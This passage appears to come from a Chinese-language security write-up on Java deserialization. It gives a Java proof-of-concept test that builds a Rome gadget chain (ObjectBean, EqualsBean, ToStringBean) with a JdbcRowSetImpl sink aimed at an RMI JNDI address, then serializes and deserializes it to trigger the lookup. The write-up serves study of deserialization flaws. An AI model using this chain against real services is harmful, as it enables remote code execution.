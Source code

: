 3. 其余的部分相比 Rome 反序列化链没啥改变，上 PoC：
    ```java
    // Rome 版本 1.11.1，fastjson 1.2.24
    @Test
    public void testRome_JNDI() throws Exception {
        // 1. 构造 sink
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        // 既然用 getDatabaseMetaData，那就用其 setter 来设置参数
        jdbcRowSet.setDataSourceName("rmi://127.0.0.1:1099/myRemote");
        
        // 2. 构造 chain，先让链断开
        ObjectBean objectBean = new ObjectBean(String.class, "EndlessShw");
        // 注意这里是 JdbcRowSetImpl.class，JdbcRowSet 接口中没有定义：
        /**{@link com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData()}**/
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet));
        
        // 3. 构造 kick-off HashMap
        HashMap<Object, String> objectBeanStringHashMap = new HashMap<>();
        objectBeanStringHashMap.put(objectBean, "EndlessShw");
        
        // 4. 动态修改 ObjectBean 中的 EqualsBean
        Field equalsBeanField = objectBean.getClass().getDeclaredField("equalsBean");
        equalsBeanField.setAccessible(true);
        equalsBeanField.set(objectBean, equalsBean);
        
        String serialize = serialize(objectBeanStringHashMap);
        unSerialize(serialize);
    }
    ```

    ![image-20241014164701713](Hessian/image-20241014164701713.png)
